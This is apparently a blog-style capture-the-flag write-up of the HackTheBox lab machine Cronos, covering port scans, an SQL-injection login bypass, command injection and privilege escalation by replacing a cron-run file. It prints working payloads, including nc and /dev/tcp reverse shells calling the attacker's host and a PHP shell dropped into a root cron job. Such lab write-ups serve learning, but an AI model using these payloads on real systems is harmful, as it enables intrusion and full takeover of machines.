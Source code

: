 +++
title = "HackTheBox - Cronos"
description = ""
type = ["posts","post"]
tags = [
    "HackTheBox",
    "CTF",
    "Bug",
]
date = "2020-07-14"
categories = [
    "HackTheBox",
    "CTF",
]
series = ["HackTheBox"]
[ author ]
  name = "0xSc0ut"
+++

Welcome back with another HackTheBox machine


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594878011254_Screenshot+2020-07-16+at+11.09.53+AM.png)


Cronos is a **Linux** based **Medium** severity machine. This machine is highly recommended for beginners. Initial shell requires basic web application tricks whereas post exploitation is also something which we have seen before.

**Tools:**


- PortScan - Masscan and Nmap
- Subdomain Enumeration - Dig

**Initial Recon:**

As always start with scanning all ports, I have used masscan and nmap.


    #masscan
    open tcp 80 10.10.10.13 1594390115
    open tcp 53 10.10.10.13 1594390124
    open udp 53 10.10.10.13 1594390129
    open tcp 22 10.10.10.13 1594390142

**Nmap:**


    PORT   STATE  SERVICE VERSION
    22/tcp open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
    |   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
    |_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
    53/tcp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    80/tcp open   http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                                         
    | http-cookie-flags:                                                                                                                                                                                         
    |   /:                                                                                                                                                                                                       
    |     PHPSESSID:                                                                                                                                                                                             
    |_      httponly flag not set                                                                                                                                                                                
    |_http-server-header: Apache/2.4.18 (Ubuntu)                                                                                                                                                                 
    |_http-title: Login Page                                                                                                                                                                                     
    | vulners:                                                                                                                                                                                                   
    |   cpe:/a:apache:http_server:2.4.18:                                                                                                                                                                        
    |       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679                                                                                                                                        
    |       CVE-2017-7668   7.5     https://vulners.com/cve/CVE-2017-7668                                                                                                                                        
    |       CVE-2017-3169   7.5     https://vulners.com/cve/CVE-2017-3169                                                                                                                                        
    |       CVE-2017-3167   7.5     https://vulners.com/cve/CVE-2017-3167                                                                                                                                        
    |       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211                                                                                                                                        
    |       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312                                                                                                                                        
    |       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715                                                                                                                                       
    |       CVE-2019-10082  6.4     https://vulners.com/cve/CVE-2019-10082                                                                                                                                       
    |       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
    |       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
    |       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
    |       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
    |       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
    |       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
    |       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196
    |       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
    |       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333
    |       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
    |       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
    |       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
    |       CVE-2016-8740   5.0     https://vulners.com/cve/CVE-2016-8740
    |       CVE-2016-4979   5.0     https://vulners.com/cve/CVE-2016-4979
    |       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197
    |       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
    |       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763
    |       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
    |       CVE-2016-1546   4.3     https://vulners.com/cve/CVE-2016-1546
    |       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
    |_      CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
    22/udp closed ssh
    53/udp open   domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
    | dns-nsid: 
    |_  bind.version: 9.10.3-P4-Ubuntu
    80/udp closed http
    Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
    Aggressive OS guesses: Linux 3.16 (94%), Linux 3.2 - 4.9 (94%), Linux 4.2 (94%), Linux 3.10 - 4.11 (93%), Linux 3.12 (93%), Linux 3.13 (93%), Linux 3.13 or 4.2 (93%), Linux 3.16 - 4.6 (93%), Linux 3.18 (93%), Linux 3.8 - 3.11 (93%)
    No exact OS matches for host (test conditions non-ideal).
    Network Distance: 2 hops
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    TRACEROUTE (using proto 1/icmp)
    HOP RTT       ADDRESS
    1   560.94 ms 10.10.14.1
    2   543.36 ms admin.cronos.htb (10.10.10.13)
    
    OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 62.65 seconds
    

Accessing cronos.htb we result in something like this


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594881469139_Screenshot+2020-07-16+at+12.06.48+PM.png)


 
You will get subdomain **admin.cronos.htb** , only when you configure ip address and domain in **/etc/hosts**

Another way to find subdomains is using dig command (DNS Zone transfer misconfiguration ) [Reference](https://hackertarget.com/zone-transfer/)

**Initial Shell as www-data:**

By accessing admin.cronos.htb, a login pages was there


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594879944308_Screenshot+2020-07-16+at+11.41.57+AM.png)


I tried using common password which actually didn’t work, but found basic SQLi which allowed me in


    username: ‘ or 1=1#
    password: ‘ or 1=1#

So there is something where we can execute our shell commands


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880129024_Screenshot+2020-07-16+at+11.44.45+AM.png)


If you are one who have played [DVWA](http://www.dvwa.co.uk/) (Damn Vulnerable Web Application), then this won’t be a big deal for,


    127.0.0.1 && ls


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880448697_Screenshot+2020-07-16+at+11.50.39+AM.png)



    127.0.0.1 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.x.x 1234 >/tmp/f


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594880601810_Screenshot+2020-07-16+at+11.53.13+AM.png)


Use below command to read user flag


    cat /home/noulis/user.txt

**Privilege Escalation:**

While running crontab found a intresting crontab activity which runs every minute


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594886147602_Screenshot+2020-07-16+at+1.25.06+PM.png)


Lets backup the file content so we can retrive it if something goes wrong


    mv artisan artisan.bak


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885217965_Screenshot+2020-07-16+at+1.10.03+PM.png)



So i created a php reverse shell file in my local machine


    <?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.x.x/1234 0>&1'");
    ?>

Transfer the file to vulnerable machine using command


    In my machine
    python -m SimpleHTTPServer <portnumber>


    In Victim machine
    wget http://10.10.x.x:<portnumber>/filename

I have used this you can use any file transfer technique

Now lets delete file **artisan** and change our file name as artisan


    rm artisan
    mv shell.php artisan

Since this file executes for every minute, we can start a netcat listner in our machine 

BOOM!!


![](https://paper-attachments.dropbox.com/s_30DCA98E8989B7D81FD7F79DEB0D1DB11230410502617F324E805C513302A199_1594885450090_Screenshot+2020-07-16+at+1.13.58+PM.png)


Thank you !! Will see you again in my next post

